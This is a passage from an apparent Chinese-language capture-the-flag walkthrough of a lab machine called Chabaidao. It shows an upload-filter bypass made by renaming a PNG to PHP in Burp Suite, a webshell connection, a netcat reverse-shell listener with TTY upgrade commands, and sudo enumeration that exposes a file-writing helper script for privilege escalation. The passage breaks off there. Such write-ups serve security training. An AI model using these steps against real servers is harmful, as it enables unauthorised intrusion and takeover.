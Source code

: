 1.  使用 Burp Suite 拦截文件上传的请求。
2.  将请求中的文件名从 `ant.png` 修改为 `ant.php`。
3.  发送修改后的请求，即可成功上传 `any.php`。
4.  上传成功，查看头像源码获得url。

5.  使用蚁剑进行连接。

![image-20250717230617743](https://7r1UMPHK.github.io/image/20250717230617972.webp)

## 2. 反弹 Shell

在攻击机（Kali）上监听端口：

```bash
nc -lvnp 8888
```

在蚁剑的虚拟终端弹shell回去kali，方便操作。

攻击机成功接收到连接，获得了 `www-data` 用户的 Shell。为方便后续操作，升级为功能齐全的 TTY。

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```

# 四、权限提升

## 1. 提权至 welcome (PATH 劫持)

获得了 `www-data` 的 Shell 后，首先检查 `sudo` 权限。

```bash
www-data@Chabaidao:/tmp$ sudo -l
...
User www-data may run the following commands on Chabaidao:
    (welcome) NOPASSWD: /home/welcome/write
www-data@Chabaidao:/tmp$ cat /home/welcome/write 
#!/bin/bash

# 检查参数数量
if [ $# -lt 2 ]; then
    echo "用法: $0 <文件路径> <要写入的内容>"
    exit 1
fi

file_path="$1"
content="$2"

# 检查文件是否存在
if [ ! -f "$file_path" ]; then
    echo "错误：文件 '$file_path' 不存在，无法写入。"
    exit 2
fi

# 写入内容
echo "$content" > "$file_path"
echo "内容已成功写入到 $file_path"
```
